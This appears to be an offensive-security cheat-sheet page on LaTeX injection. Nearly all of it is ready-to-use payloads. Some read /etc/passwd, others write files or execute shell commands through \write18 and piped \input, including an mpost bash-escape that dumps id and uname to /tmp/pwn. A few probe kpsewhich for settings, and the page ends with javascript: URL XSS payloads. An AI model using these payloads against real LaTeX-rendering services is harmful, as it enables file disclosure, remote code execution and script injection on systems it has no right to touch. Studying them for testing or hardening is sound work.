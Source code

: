 # LaTex

## What is LaTex ?

> LaTeX is a document preparation system for high-quality typesetting. It is most often used for medium-to-large technical or scientific documents but it can be used for almost any form of publishing.

## Injections

### Read files

```bash
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
\lstinputlisting{/etc/passwd}

# raw files
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

### Write file

```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

### Command execution

```bash
\immediate\write18{env > output}
\input{output}

\input{|"/bin/hostname"}
\input{|"extractbb /etc/passwd > /tmp/b.tex"}

# allowed mpost command RCE
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}

# If mpost is not allowed there are other commands you might be able to execute
## Just get the version
\input{|"bibtex8 --version > /tmp/b.tex"}
## Search the file pdfetex.ini
\input{|"kpsewhich pdfetex.ini > /tmp/b.tex"}
## Get env var value
\input{|"kpsewhich -expand-var=$HOSTNAME > /tmp/b.tex"}
## Get the value of shell_escape_commands without needing to read pdfetex.ini
\input{|"kpsewhich --var-value=shell_escape_commands > /tmp/b.tex"}

# if errors : encode base64
```

### Cross-Site Scripting

```bash
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

## Resources

{% embed url="https://0day.work/hacking-with-latex/" %}
